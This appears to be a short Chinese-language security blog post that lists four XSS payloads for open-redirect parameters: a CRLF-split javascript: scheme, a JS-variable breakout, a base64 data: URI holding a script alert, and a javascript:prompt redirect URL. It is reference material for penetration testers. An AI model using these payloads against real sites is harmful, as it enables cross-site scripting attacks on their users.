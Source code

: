 ```yaml
---
layout: post
title: 杂七杂八的安全tips
date: 2018-01-02
tags: Sec
---
```


### XSS TIPS 

Ref:[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20redirect)
1.  使用`CRLF`:    (`CR`:`\r`,`0x0d`;`LF`:`\n`,`0x0a`)
```
java%0d%0ascript%0d%0a:alert(0)
```

2.  XSS from Open URL - If it's in a JS variable
```
";alert(0);//
```

3.  XSS from data:// wrapper
```
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

4.  XSS from javascript:// wrapper
```
http://www.example.com/redirect.php?url=javascript:prompt(1)
```